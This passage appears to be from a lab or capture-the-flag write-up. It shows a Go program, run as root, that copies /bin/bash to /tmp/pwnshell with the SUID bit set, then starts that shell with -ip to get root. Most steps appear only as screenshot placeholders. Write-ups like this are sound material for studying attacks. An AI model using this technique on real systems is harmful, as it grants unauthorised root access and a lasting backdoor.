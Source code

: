 ```go
```

Lets get this on there using a python server 

![[Pasted image 20240813233020.png]]

and lets run it 

![[Pasted image 20240813233212.png]]

and we can run out program as root lets make a SUID binary of /bin/bash that we can run as root 

![[Pasted image 20240813233356.png]]

```go
package main

import (
	"fmt"
	"log"
	"os/exec"
)

func main() {
	out, err := exec.Command("/bin/bash", "-c", "cp /bin/bash /tmp/pwnshell; chmod +xs /tmp/pwnshell").Output()
	if err != nil {
		log.Fatal(err)
	}
	fmt.Println(string(out))
}
```

Lets get this to our machine now 

![[Pasted image 20240813233515.png]]

Lets run it now 

![[Pasted image 20240813233535.png]]

lets run this pwnshell with the -ip arguements
- -i : interactive shell
- -p : priviledge mode

![[Pasted image 20240813233646.png]]

here is the proof

![[Pasted image 20240813233707.png]]

